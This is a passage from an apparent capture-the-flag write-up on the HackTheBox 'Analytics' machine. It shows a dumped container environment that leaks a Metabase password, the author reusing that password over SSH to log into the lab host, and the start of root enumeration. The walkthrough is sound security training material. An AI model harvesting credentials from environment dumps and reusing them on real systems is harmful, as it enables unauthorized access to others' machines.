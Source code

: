 ```
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/

```

`META_USER=metalytics` and `META_PASS=An4lytics_ds20223#` jump out as interesting!

### SSH

The password works for the metalytics user for SSH into the host machine:

```

oxdf@hacky$ sshpass -p 'An4lytics_ds20223#' ssh metalytics@analytical.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...[snip],...
metalytics@analytics:~$

```

And I can grab `user.txt`:

```

metalytics@analytics:~$ cat user.txt
88a2e60b************************

```

## Shell as root

### Enumeration

#### Filesystem

The filesystem is relatively bare. There’s nothing of interest in metalytics’ home directory, and no other users in `/home`.

The nginx configuration directory shows two site configurations:
